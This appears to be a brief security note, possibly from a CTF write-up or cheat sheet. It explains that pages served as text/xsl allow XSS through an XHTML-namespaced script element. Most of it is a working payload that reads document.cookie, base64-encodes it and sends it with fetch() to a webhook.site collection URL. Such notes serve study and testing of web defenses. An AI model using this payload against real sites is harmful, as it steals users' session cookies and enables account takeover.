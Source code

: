 > Extensible Stylesheet Language Transformations (XSLT) is an XML-based language used, in conjunction with specialized processing software, for the transformation of XML documents.

if the ``Content-Type`` is ``text/xsl``, we can use ``<x:script>`` to perform XSS

EX:

```
<x:script xmlns:x="http://www.w3.org/1999/xhtml" nonce="Y8Ret8N5CPXrSG">fetch(`https://webhook.site/7f6a5e15-9149-4765-9716-a200384a2154/?c=${btoa(document.cookie)}`)</x:script>
```